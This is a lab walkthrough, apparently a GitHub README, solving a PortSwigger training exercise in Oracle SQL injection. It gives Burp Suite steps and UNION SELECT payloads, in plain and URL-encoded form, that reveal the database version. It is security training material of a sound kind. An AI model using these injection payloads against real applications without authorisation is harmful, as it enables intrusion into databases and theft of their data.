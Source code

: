 # Lab 7: SQL injection attack, querying the database type and version on Oracle

This lab contains an SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

## Hint 
On Oracle databases, every SELECT statement must specify a table to select FROM. If your UNION SELECT attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name.

There is a built-in table on Oracle called dual which you can use for this purpose. For example: UNION SELECT 'abc' FROM dual.

## Solution
> Manual Exploitation
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter: ```'+UNION+SELECT+'abc','def'+FROM+dual--```
3. Use the following payload to display the database version: ```'+UNION+SELECT+BANNER,+NULL+FROM+v$version--```

> Scripting the Attack: [Script](https://github.com/darshannn10/PortSwiggers-Web-Sec-Academy/blob/main/SQL-Injection/lab-07/sqli-lab-07.py)

## Payload:
Normal: ```' UNION SELECT BANNER,NULL FROM v$version--```

URL-Encoded: ```%27%20UNION%20SELECT%20BANNER,NULL%20FROM%20v$version--```

## Video Solution:
1. Manually: [Rana Khalil's Youtube video](https://youtu.be/s0dFU2dKAKU)
2. Automating: [Rana Khalil's Youtube video](https://www.youtube.com/watch?v=neeY0iVa_0A&list=PLuyTk2_mYISLaZC4fVqDuW_hOk0dd5rlf&index=8)
